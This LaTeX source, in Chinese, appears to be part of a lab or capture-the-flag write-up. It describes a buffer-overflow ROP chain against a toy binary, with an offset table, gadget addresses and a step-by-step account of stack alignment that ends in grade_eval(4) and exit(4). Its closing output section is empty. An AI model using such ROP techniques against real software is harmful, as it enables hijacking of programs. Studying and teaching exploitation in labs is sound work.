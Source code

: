 \documentclass[UTF8,a4paper,12pt,fontset=windows]{ctexart}
\newcommand{\code}[1]{\texttt{#1}}
\begin{document}
目标函数是 \code{grade\_eval = 0x401978}，\code{exit@plt = 0x4016e0}。

\subsection{ROP 链的布局}

\begin{lstlisting}
偏移    内容                     说明
0x00    16 字节填充              填满 expression 缓冲区
0x10    8 字节填充               saved rbp，无所谓
0x18    p64(0x401a33)            pop rdi; ret
0x20    p64(4)                   grade = 4
0x28    p64(0x401a34)            ret（栈对齐）
0x30    p64(0x401978)            grade_eval
0x38    p64(0x401a33)            pop rdi; ret
0x40    p64(4)                   exit 的参数 4
0x48    p64(0x401a34)            ret（栈对齐）
0x50    p64(0x4016e0)            exit@plt
0x58    p64(0)                   exit 的返回地址，用不到
\end{lstlisting}

链一共有 80 字节。执行的时候：

\begin{enumerate}
  \item \code{input()} 的 \code{ret} 弹出栈顶 \code{0x401a33}，跳过去；
  \item \code{pop \%rdi} 把下一个 8 字节（也就是 4）弹进 \code{rdi}，
        再 \code{ret} 跳到 \code{0x401a34}；
  \item \code{0x401a34} 是个 \code{ret}，什么也不做，只是把 \code{rsp} 又挪 8 字节；
  \item \code{ret} 跳到 \code{0x401978}，也就是 \code{grade\_eval}，
        此时 \code{rdi} 正好是 4，它打印出 “Hope A will be your grade!”；
  \item 后半段同理，最后落到 \code{exit(4)}。
\end{enumerate}

\subsection{函数入口处的栈对齐}

SysV AMD64 规定，函数入口处 \code{rsp \% 16 == 8}。\code{input()} 的 \code{ret}
执行完之后 \code{rsp \% 16 == 0}，直接跳进 \code{grade\_eval} 就对不齐了。
这版在这里用了一条
纯 \code{ret}，让 \code{rsp} 多偏 8 字节，正好回到 8 mod 16。



\subsection{运行输出与退出状态}
\end{document}
